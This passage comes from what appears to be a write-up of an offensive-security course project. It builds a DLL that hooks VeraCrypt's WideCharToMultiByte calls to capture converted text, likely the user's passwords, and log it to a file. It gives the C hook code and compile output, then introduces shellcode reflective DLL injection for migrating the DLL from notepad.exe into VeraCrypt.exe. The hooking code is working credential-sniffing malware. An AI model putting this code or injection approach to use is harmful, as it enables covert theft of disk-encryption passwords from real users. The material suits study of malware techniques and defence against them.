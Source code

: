 ```c
// Hooking function
int HookedWideCharToMultiByte(UINT CodePage, DWORD dwFlags, _In_NLS_string_(cchWideChar)LPCWCH lpWideCharStr, int cchWideChar, LPSTR lpMultiByteStr, int cbMultiByte, LPCCH lpDefaultChar, LPBOOL lpUsedDefaultChar) {
	
	int ret;
	char buffer[50];
	HANDLE hFile = NULL;
	DWORD numBytes;
	
	// call original function
	ret = pWideCharToMultiByte(CodePage, dwFlags, lpWideCharStr, cchWideChar, lpMultiByteStr, cbMultiByte, lpDefaultChar, lpUsedDefaultChar);
	
	sprintf(buffer, "DATA = %s\n", lpMultiByteStr);
	//OutputDebugStringA(buffer);
	
	// store captured data in a file
	hFile = CreateFile("C:\\VeraCrypt\\data.txt", FILE_APPEND_DATA, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == INVALID_HANDLE_VALUE)
		OutputDebugStringA("Error with log file!\n");
	else
		WriteFile(hFile, buffer, strlen(buffer), &numBytes, NULL);

	CloseHandle(hFile);
	
	return ret;
}
```

Now, we can run the compile script (`compile.bat`) and get the DLL `vcsniff-iat.dll`:

```shell
C:\Projects\sektor7\intermediate\08.Project\VCsniff>compile.bat
vcsniff-iat.cpp
   Creating library vcsniff-iat.lib and object vcsniff-iat.exp

C:\Projects\sektor7\intermediate\08.Project\VCsniff>
```

Now, simply copy the DLL into **VCmigrate** folder.

## VCmigrate {#vcmigrate}

As discussed previously, VCmigrate's purpose is to migrate from 32-bit `notepad.exe` to 64-bit `VeraCrypt.exe`.

First of all, the reason that we created a DLL in VCsniff is to perform Shellcode Reflective DLL Injection (**sRDI**). The original idea of Reflective DLL Injection comes from the great <a href="https://twitter.com/stephenfewer" target="_blank">Stephen Fewer</a> and his repository <a href="https://github.com/stephenfewer/ReflectiveDLLInjection" target="_blank">ReflectiveDLLInjection</a>. Basically, with this technique we can perform DLL Injection from memory rather than from disk. This technique works fine when we have the source code of the DLL to be injected, but doesn't work otherwise. That's when <a href="https://twitter.com/monoxgas" target="_blank">monoxgas</a> came up with the idea of Shellcode Reflective DLL Injection in the repository <a href="https://github.com/monoxgas/sRDI" target="_blank">sRDI</a>. The improvement is that we can convert the DLL to shellcode and still load it reflectively in memory, without the need of the source code of the DLL. A deeper dive into this great technique can be found at <a href="https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/" target="_blank">sRDI - Shellcode Reflective DLL Injection</a>.
